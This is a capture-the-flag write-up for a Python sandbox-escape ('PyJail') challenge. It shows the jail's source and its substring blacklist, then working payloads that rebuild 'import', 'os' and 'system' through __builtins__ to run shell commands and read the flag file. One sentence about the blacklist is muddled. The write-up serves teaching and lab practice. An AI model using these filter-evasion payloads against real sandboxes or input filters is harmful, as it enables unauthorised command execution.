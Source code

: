 PRISON BREAK Cell 1 – 300 pts
Category: PyJail
Description:

This is just a PyJail

To connect:
nc 192.168.8.136 10014

Challenge Overview
The server accepts arbitrary Python input, but blacklists certain keywords before executing the payload via os.execv. The main idea is to execute arbitrary Python code within a restricted environment, i.e., a PyJail.

jail.py:

```python

import os
import sys

confiscated_tools = ['os', 'import', 'flag', 'system']

hax = input("> ")
sys.stdin.close()

if len(hax) > 1024:
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        exit(1)

code = f"""
{hax}
""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
```


Blacklist & Execution
Blacklisted substrings: <span style="background-color: yellow">"os", "import", "flag", "system"</span>


The input is injected into a dynamically constructed string and executed via:

python3 -c "<user_input>"
Any input containing blacklisted substrings gets rejected. Substring matching is used (if tool in hax), not full-word matching or regex. This makes it possible for "__import__" or even "syst" + "em" to be blocked, since "import" and "system" are substrings of those.


Exploitation Strategy
To bypass the jail, I used the following strategy:

Avoid all blacklisted substrings, even when they appear within larger words.

Dynamically reconstruct banned keywords like "import", "os", and "system" using string concatenation.

Use __builtins__ as a starting point to avoid using import directly.

Working Payloads
Step 1: List the directory to confirm the flag file

(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('ls')

Output:
flag.txt
run

Step 2: Read the flag
(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('cat 
flag.txt')

This bypasses the jail and prints the flag: CITU{th1s_1s_jus7_4n_ez_0n3_w4rd3n_1s_c4r3l3ss}











